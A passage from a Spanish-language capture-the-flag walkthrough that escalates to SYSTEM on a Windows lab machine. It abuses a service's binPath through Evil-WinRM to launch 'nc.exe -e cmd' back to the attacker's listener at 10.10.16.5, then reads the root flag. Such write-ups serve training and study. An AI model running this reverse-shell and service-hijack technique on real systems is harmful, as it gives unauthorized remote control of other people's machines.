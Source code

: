 Verificamos que logramos modificar correctamente el `binPath` del servicio `VMTools`, también podemos utilizar el servicio `browser`.

```powershell
*Evil-WinRM* PS C:\Temp> sc.exe config VMTools binPath="C:\Temp\nc.exe -e cmd 10.10.16.5 443"
[SC] ChangeServiceConfig SUCCESS
```

En una terminal nos pondremos en escucha por el puerto especificado en el punto anterior.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Volveremos a la terminal del equipo víctima y procederemos a parar y volver a iniciar el servicio el cual hemos modificado el `binPath` para que ejecute la Reverse Shell.

```powershell
*Evil-WinRM* PS C:\Temp> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Temp> sc.exe start VMTools
```

Verificamos que al volver a iniciar el servicio, hemos logrado obtener conexión a través de la Reverse Shell, en este caso, el usuario que arranca el servicio es el usuario `NT AUTHORITY\SYSTEM`, lo cual tenemos control total sobre el equipo.

Logramos visualizar la flag de **root.txt**.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.108] 50086
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
00ac8a0f81**********************
```
